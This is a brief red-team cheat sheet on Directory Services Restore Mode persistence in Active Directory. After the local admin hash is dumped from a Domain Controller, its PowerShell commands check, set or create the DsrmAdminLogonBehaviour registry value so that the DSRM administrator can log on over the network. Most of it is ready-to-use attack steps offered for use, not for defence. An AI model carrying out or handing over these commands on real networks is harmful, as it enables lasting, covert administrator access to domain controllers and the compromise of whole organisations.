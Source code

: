 # Directory Service Restore Mode (DSRM)

Directory Services Restore Mode (DSRM) is a safe boot mode which allows emergency access to the Domain Controller for database repairs and recovery. When Active Directory is initially setup the Administrator will be prompted for a password to use for DSRM if ever needed.

## NOTE: DSRM creates a local administrator account on the Domain Controller that is different from the Domain administrator account.

## Requirements: Obtain Local Admin hash on the Domain Controller

### After dumping local admin hash on the domain controller, run:

##### Check if key exists

    Get-ItemProperty 'HKLM:\System\CurrentControlSet\Control\Lsa\' -Name 'DsrmAdminLogonBehaviour'

##### If key exists and value is not set to 2

    Set-ItemProperty 'HKLM:\System\CurrentControlSet\Control\Lsa\' -Name 'DsrmAdminLogonBehaviour' -Value 2 -Verbose

##### If key does not exist then create it

    New-ItemProperty 'HKLM:\System\CurrentControlSet\Control\Lsa\' -Name 'DsrmAdminLogonBehaviour' -Value 2 -PropertyType DWORD -Verbose

